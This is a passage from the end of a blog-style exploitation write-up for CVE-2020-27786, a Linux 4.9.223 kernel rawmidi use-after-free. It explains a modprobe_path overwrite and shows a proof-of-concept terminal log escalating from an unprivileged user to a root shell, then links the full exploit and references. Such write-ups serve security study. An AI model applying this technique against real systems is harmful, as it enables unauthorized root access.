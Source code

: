 What the exploit does is simply create the `/tmp/x` binary that will suid as root a file dropped in `/tmp/suid` and create a file with an unknown header (`/tmp/nnn`) that will trigger the executon as root of `/tmp/x` from `call_usermodehelper_exec`. After that, the `/tmp/suid` gives root privileges and spawns a root shell.

POC:
```bash
/ $ uname -a                                   
Linux (none) 4.9.223 #3 SMP Wed Jun 1 23:15:02 CEST 2022 x86_64 GNU/Linux 
/ $ id
uid=1000(user) gid=1000 groups=1000
/ $ /main 
[*] Starting exploitation ..
[+] userfaultfd registered
[*] First write to init substream..
[*] Resizing buffer_size to 4096 ..
[*] snd_write triggered (should fault) 
[*] Freeing buf using SNDRV_RAWMIDI_IOCTL_PARAMS
[+] Page Fault triggered for 0x5551000!
[*] Replacing freed obj with msg_msg .
[*] Waiting for userfaultd to finish ..
[*] Page fault thread terminated
[+] Page fault lock released
[+] init_ipc_ns @0xffffffff81e8d560
[+] calculated modprobe_path @0xffffffff81e42a00
[+] Starting the arbitrary write phase ..
[*] Closing and reopening re-opening rawmidi fd ..
[+] userfaultfd registered
[*] First write to init substream..
[*] Resizing buffer_size to land into kmalloc-256 ..
[*] snd_write triggered (should fault) 
[*] Freeing buf from SNDRV_RAWMIDI_IOCTL_PARAMS
[+] Page Fault triggered for 0x7771000!
[*] Waiting for readv ..
[*] Page fault thread terminated
[+] Page fault lock released
[*] Writing into the pipe ..
[*] write = 24
[+] enjoy your r00t shell [:
/ # id
uid=0(root) gid=0 groups=1000
/ #
```

## Conclusion
That was my journey into exploiting a known vulnerability in the `4.9.223` kernel. You can find the whole exploit on github: https://github.com/kiks7/CVE-2020-27786-Kernel-Exploit.

## References
- https://1day.dev/2022-06/1day-devel-part-1.html
- https://elixir.bootlin.com/linux/v4.9.223/source/
- https://lwn.net/Articles/819834/
- https://www.youtube.com/watch?v=6dFmH_JEF4s
- https://blog.lizzie.io/using-userfaultfd.html
- https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html
- https://syst3mfailure.io/wall-of-perdition
- https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
- https://cloudfuzz.github.io/android-kernel-exploitation/chapters/exploitation.html#leaking-task-struct-pointer
- https://syst3mfailure.io/hotrod
- https://man7.org/linux/man-pages/man2/userfaultfd.2.html
- https://github.com/kiks7/CVE-2020-27786-Kernel-Exploit